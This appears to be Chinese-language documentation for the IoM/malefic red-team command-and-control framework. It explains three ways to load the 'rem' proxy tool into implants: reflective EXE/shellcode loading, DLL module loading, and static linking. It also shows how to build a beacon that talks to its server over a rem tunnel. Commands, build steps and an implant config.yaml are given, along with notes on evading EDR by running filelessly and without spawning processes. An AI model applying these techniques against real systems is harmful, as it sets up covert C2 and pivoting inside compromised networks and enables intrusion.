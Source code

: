 
## 使用rem实现网络相关功能

在IoM的v0.1.0中集成了一系列rem相关的功能. IoM通过三种方式打通implant与rem的交互。

### 方法1 反射加载EXE程序

rust implant的execute_exe 能完美加载rem， 就像在本地使用一样。 

```
execute_exe rem.exe -- -c [rem_link] ... 
```

或基于RDI的实现
```
execute_shellcode rem.exe -- -c [rem_link] ...
```

!!! example "优点"
	- 无文件落地
	- 支持RDI和PIC两种加载方式

!!! danger "缺点"
	- 有新进程产生，并且无法使用inline版本的加载器。对某些高强度端上对抗环境有暴露面
	- 与pipeline交互有延迟， 需要等待30-60秒才能将新的pivoting数据同步
	- 只支持windows

### 方法2 动态加载 module

将rem打包成dll, 基于Cgo与FFI实现跨语言调用

对于使用者来说， 不需要关注这些细节， 相关代码已经在[IoM的插件仓库](https://github.com/chainreactors/mal-community/blob/master/community-proxy/modules/rem.lua) 中完成了对应的封装。

上线后，在IoM命令行中执行以下代码即可安装并使用rem。

!!! tips "rem_community已在v0.1.1打包到client"

```sh
# 加载rem dll
rem_community load 

# 选择对应的rem pipeline, 搭建了反向代理隧道
rem_community socks5 rem_pipeline
```

!!! example "优点"
	- 相比`execute-exe/execute-shellcode`好的地方在于， 不会有新进程fork， 一切都在当前进程中完成。 
	- 联动IoM rem pipeline，能实时同步pivoting并进行后续管理

!!! danger "缺点"
	- 需要反射加载dll, 可能会留下EDR的部分暴露面
	- 只支持windows

### 方法3 静态链接rem

方法1和2都是解决上线后进一步搭建proxy/tunnel，本方法直接支持rem信道上线以及所有的rem提供的proxy/tunnel功能。


```yaml
implants:  
  ......
  enable_3rd: true       # enable 3rd module  
  3rd_modules:            # 3rd module when malefic compile  
    - rem
```

```sh
malefic-mutant generate beacon
```

!!! danger "windows 仅x86_64-pc-windows-gnu支持, linux 均支持 "

静态链接的beacon体积会膨胀不少， 但是可以直接使用rem

![](/blog/assets/Pasted%20image%2020250412001458.png)

例如搭建反向socks5代理只需要

```
reverse [rem_defualt]
```

手动指定rem命令
```
rem_dial [rem_default] -- -c ...
```

!!! example "优点"
	- 支持windows/linux
	- 联动IoM rem pipeline
	- 能复用rem的信道实现上线
	- 只在本进程中执行， 不会fork新进程
	
!!! danger "缺点"
	- 体积会膨胀， 大概在10M左右， upx后3-4M
	- 静态链接库不再支持ollvm, 带来一定的静态特征

## rem信道上线

基于静态链接的rem有一个独一无二的优势。 可以直接通过rem构建的内存中的虚拟信道上线。 实现**malefic over rem**

需要修改implant 的`config.yaml`

```yaml
basic:  
  name: "malefic"  
  targets:  
    - "127.0.0.1:5001"  
  protocol: "rem"  
  tls: false  
  proxy: ""  
  interval: 5  
  jitter: 0.2  
  ca:  
  encryption: aes  
  key: maliceofinternal  
  rem:  
    link: '[rem_link]'
```

运行mutant生成编译配置并编译

```bash
malefic-mutant generate beacon

cargo build --release -p malefic
```

debug 模式下的日志。 可以看到IoM的implant基于通过rem的构建的传输层进行通讯

![](/IoM/assets/76cd7db07e9cb196183a759c85ae396.png)


这样一来， rem支持的所有传输层，加密，伪装混淆都能复用到implant中， 实现流量侧的任意伪装。